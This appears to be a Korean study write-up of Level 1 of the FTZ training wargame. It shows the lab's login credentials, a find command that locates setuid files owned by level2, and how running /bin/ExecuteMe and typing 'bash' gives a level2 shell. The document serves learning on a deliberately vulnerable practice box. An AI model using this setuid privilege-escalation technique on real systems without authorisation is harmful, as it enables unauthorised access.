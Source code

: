 ```yaml
---
sort: 1
---
```


# Level 1

```note
id : level1

password : level1
```

```bash
[level1@ftz level1]$ cat hint

level2 권한에 setuid가 걸린 파일을 찾는다.
```

find 명령어를 통해 해당 파일을 찾을 수 있다. find 명령어에 대해 잘 모른다면 `man find`를 통해 살펴보자.

```bash
[level1@ftz level1]$ find / -user level2 -perm +4000 2> /dev/null
/bin/ExecuteMe
[level1@ftz level1]$ ls -al /bin/ExecuteMe
-rwsr-x---    1 level2   level1      12868  9월 10  2011 /bin/ExecuteMe
```

setuid가 걸려있기 때문에 ExecuteMe를 실행하면 level2의 권한을 얻게된다.<br>
my-pass는 안되기 때문에 level2권한의 shell을 얻기 위해서 bash를 실행한다.

```bash
		레벨2의 권한으로 당신이 원하는 명령어를
		한가지 실행시켜 드리겠습니다.
		(단, my-pass 와 chmod는 제외)

		어떤 명령을 실행시키겠습니까?


		[level2@ftz level2]$ bash


[level2@ftz level2]$ my-pass
```

```tip
## 알게 된 점

find를 통해 원하는 파일을 탐색할 수 있다.

shell은 명령어를 실행시켜줄 수 있는 프로그램이다.
```